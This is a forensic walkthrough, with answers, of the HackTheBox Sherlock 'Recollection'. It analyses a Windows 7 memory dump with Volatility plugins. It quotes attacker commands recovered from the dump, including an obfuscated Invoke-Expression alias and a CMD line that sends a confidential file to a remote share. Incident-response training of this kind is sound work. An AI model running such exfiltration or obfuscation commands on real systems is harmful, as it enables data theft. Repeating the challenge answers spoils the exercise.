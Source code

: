 # [HackTheBox Sherlocks - Recollection](https://app.hackthebox.com/sherlocks/Recollection)
Created: 20/05/2024 19:51
Last Updated: 20/05/2024 21:49
* * *
![2ea32ee4179e70ceb9fa86b0f2d88056.png](../../../_resources/2ea32ee4179e70ceb9fa86b0f2d88056.png)
**Scenario:**
A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below.

* * *
>Task 1: What is the Operating System of the machine?

![769aa7d537962935ed5c43edcda9f341.png](../../../_resources/769aa7d537962935ed5c43edcda9f341.png)
We got a single binary file which couldn't be opened with FTKImager or Autopsy (I tried) so I tried using `vol.py -f recollection.bin imageinfo` which should be the legitimate way to solve it cuz this binary file is memory file

And result from imageinfo plugin tell us its Windows 7 memory file
```
Windows 7
```

>Task 2: When was the memory dump created?
```
2022-12-19 16:07:30
```

>Task 3: After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

![d00c3d1d9cd7b087df6a406ebd717b83.png](../../../_resources/d00c3d1d9cd7b087df6a406ebd717b83.png)
We can use clipboard plugin for this `vol.py -f recollection.bin --profile=Win7SP1x64 clipboard` which you can see that suspicious data that appeared at the top

I used `vol.py -f recollection.bin --profile=Win7SP1x64 cmdscan` to find all command lines it could find 
![5e47d98406f71daa46938009e54e59f9.png](../../../_resources/5e47d98406f71daa46938009e54e59f9.png)
which it returns these command history for us, as you can see that an attacker got accessed to cmd then paste powershell command (successfully pasted which showed in powershell history)
```
(gv '*MDR*').naMe[3,11,2]-joIN''
```

>Task 4: The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?

![9c9db845ebe4ffda03f7c030a794eeb0.png](../../../_resources/9c9db845ebe4ffda03f7c030a794eeb0.png)
I copied content of it then ran in Powershell which result shows that its IEX ([Invoke-Expression](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.4)) which will run strings after it as command
```
Invoke-Expression
```

>Task 5: A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

![af72870983a384196d975b4259ba5e73.png](../../../_resources/af72870983a384196d975b4259ba5e73.png)
On powershell process history, you can see that an attacker tried to display content of Confidential file then pipe to other file on share folder
```
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

>Task 6: Following the above command, now tell us if the file was exfiltrated successfully?

![627f7c06d6cbcb66c0a951eba4c7a57a.png](../../../_resources/627f7c06d6cbcb66c0a951eba4c7a57a.png)
`vol.py -f recollection.bin --profile=Win7SP1x64 consoles`, consoles plugin is used for this one which is the better version of cmdscan which as you can see that it also displayed result of those commands

And we can see that network path is not found which mean its not success
```
No
```

>Task 7: The attacker tried to create a readme file. What was the full path of the file?

![70ccf0f2926e20f5bb4b9b91b6a79486.png](../../../_resources/70ccf0f2926e20f5bb4b9b91b6a79486.png)
Copy base64 string and throw it to your base64 decoder
![3a725e3892572b4961710910c0b1f482.png](../../../_resources/3a725e3892572b4961710910c0b1f482.png)
Look like an attacker tried to make everyone know that this system was hacked
```
C:\Users\Public\Office\readme.txt
```

>Task 8: What was the Host Name of the machine?

![1ca4f2e61a4cca6730543326e85ee5d2.png](../../../_resources/1ca4f2e61a4cca6730543326e85ee5d2.png)
An attacker also used `net users` command which help us with this task and next task
```
USER-PC
```

>Task 9: How many user accounts were in the machine?
```
3
```

>Task 10: In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?

![04d38e9e4e88abdb275c696743f6767a.png](../../../_resources/04d38e9e4e88abdb275c696743f6767a.png)
We can use filescan plugin with grep to find for this file specifically (`vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "passwords.txt"`) then we have full path of this file
```
\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
```

>Task 11: A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?

![6dd3c2c2d6e196a2777bfe5a7dcdb5fa.png](../../../_resources/6dd3c2c2d6e196a2777bfe5a7dcdb5fa.png)
Back to result from consoles plugin, we can see that this exe file was executed
```
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1
```

>Task 12: Following the previous question, what is the Imphash of the malicous file you found above?

![61ca41be16b0af77fad73a51d1a308b4.png](../../../_resources/61ca41be16b0af77fad73a51d1a308b4.png)
Search file hash we got from previous task to VirusTotal, its a Loki stealer
![5821f13b1df00e7cc55d30bea58f3978.png](../../../_resources/5821f13b1df00e7cc55d30bea58f3978.png)
For implash, go to Details
```
d3b592cd9481e4f053b5362e22d61595
```

>Task 13: Following the previous question, tell us the date in UTC format when the malicious file was created?

![77e657e8b2059bf3baa924bbcdc03275.png](../../../_resources/77e657e8b2059bf3baa924bbcdc03275.png)
We still in Details tab on VirusTotal, scroll down a bit then you will see History section
```
2022-06-22 11:49:04
```

>Task 14: What was the local IP address of the machine?

![204d2be9807f151a9d75eb2dec9e05ca.png](../../../_resources/204d2be9807f151a9d75eb2dec9e05ca.png)
We can use netscan plugin for this one (`vol.py -f recollection.bin --profile=Win7SP1x64 netscan`)
And we can see it used the same Local Address (not loopback) to communicate
```
192.168.0.104
```

>Task 15: There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?

![c056a329c0e3e330647652f6d4eed661.png](../../../_resources/c056a329c0e3e330647652f6d4eed661.png)
Its pstree plugin time! (`vol.py -f recollection.bin --profile=Win7SP1x64 pstree`)

As we already guessed from Task 3, it was spawned under cmd
```
cmd.exe
```

>Task 16: Attacker might have used an email address to login a social media. Can you tell us the email address?

Earlier We found that an attacker tried to create a text file to tell other user that this system was hacked and the word that we could use to find is "mafia" 
![57a566c371aedc82696fc0b99e44004d.png](../../../_resources/57a566c371aedc82696fc0b99e44004d.png)
I used strings to do this since i didn't know where to look for (`strings recollection.bin | grep "mafia"`) and it still landed us with an answer
```
mafia_code1337@gmail.com
```

>Task 17: Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

We saw wazuh's msi file in user's Download directory so it should be this one

But we can dump MS Edge history file to investigate too
![f9170669e983e767d8eac7ffe63d30ed.png](../../../_resources/f9170669e983e767d8eac7ffe63d30ed.png)
First I used `vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "History"` to find location of History file and its address inside this binary

![98efcd89f4d5c06701448dd8dc18c375.png](../../../_resources/98efcd89f4d5c06701448dd8dc18c375.png)
Then use `mkdir Edge; vol.py -f recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011e0d16f0 --dump-dir ./Edge` to create an output folder and dump that file using

It does not look like a legitimate History file but if you used "file" with it then we can confirm that we got the right one
![9a3e2dea98531b0f322c61935f8085e3.png](../../../_resources/9a3e2dea98531b0f322c61935f8085e3.png)
Opened it with DB Browser for SQLite and pick "urls" table, you can see that Wazuh is the only SIEM that appeared on this history
```
Wazuh
```

>Task 18: The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

I didn't find other file were downloaded using MS Edge so I went back to volatility 
![6dd3c2c2d6e196a2777bfe5a7dcdb5fa.png](../../../_resources/6dd3c2c2d6e196a2777bfe5a7dcdb5fa.png)
Here is the result from consoles plugin, as you can see that there that there is `csrsss.exe` which totally look out of place here since you won't see a legitimate version of this file on anywhere beside `C:\Windows\System32`
```
csrsss.exe
```

![c2239951a5b2355e2c8afc98fd92eb98.png](../../../_resources/c2239951a5b2355e2c8afc98fd92eb98.png)
* * *
